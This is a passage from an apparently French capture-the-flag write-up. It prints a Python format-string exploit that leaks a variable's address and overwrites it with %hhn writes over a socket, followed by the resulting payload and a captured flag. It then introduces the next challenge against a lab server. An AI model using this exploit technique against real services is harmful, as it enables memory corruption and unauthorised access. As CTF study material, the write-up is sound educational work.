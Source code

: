 ```python
address = buff[17:].strip()
# convert hex address to uint_32
address = struct.unpack(">I", address.decode("hex_codec"))[0]
print "pWinning is at", hex(address)

buff = sock.recv(1024)  # Sorry + Hello...

# Sending our unarmed payload
sock.send(magic)
buff = sock.recv(1024)  # Nice to meet you...
if "41414141" not in buff:
    print "Bad alignment! :("
    sock.close()
    exit()
buff = sock.recv(1024)  # Sorry...

# So far so good, now let's overwrite pWinning content
magic = magic.replace("AAAA", struct.pack("I", address+3))
magic = magic.replace("BBBB", struct.pack("I", address+2))
magic = magic.replace("CCCC", struct.pack("I", address+1))
magic = magic.replace("DDDD", struct.pack("I", address))
magic = magic.replace(".8X", "hhn")

print "Sending", repr(magic)
sock.send(magic)
sock.recv(1024)  # Nice to meet...

buff = sock.recv(1024)
print buff

sock.close()
```

Comme d'habitude je pars sur la chaîne préparée avec des *%.8X* pour déboguer que je remplace ensuite par *%hhn* pour l'exploitation.  

```plain
$ python fmt.py 
pWinning is at 0xb753d8ad
Sending 'PPP\xb0\xd8S\xb7\xaf\xd8S\xb7\xae\xd8S\xb7\xad\xd8S\xb7%.30X%14$hhnZZ%15$hhn%.72X%16$hhn%.116X%17$hhn'
Today is your lucky day! Your key is: FairlyIdealLiver576
```

A Bit One Sided (280 points)
----------------------------

> Perform a review of the supplied source code for Quick Code Ltd. to identify any vulnerabilities. A server has been set up for you to exploit the identified vulnerabilities for the customer at 192.168.1.64:21320

Cette fois on dispose d'un boût de C++ :  
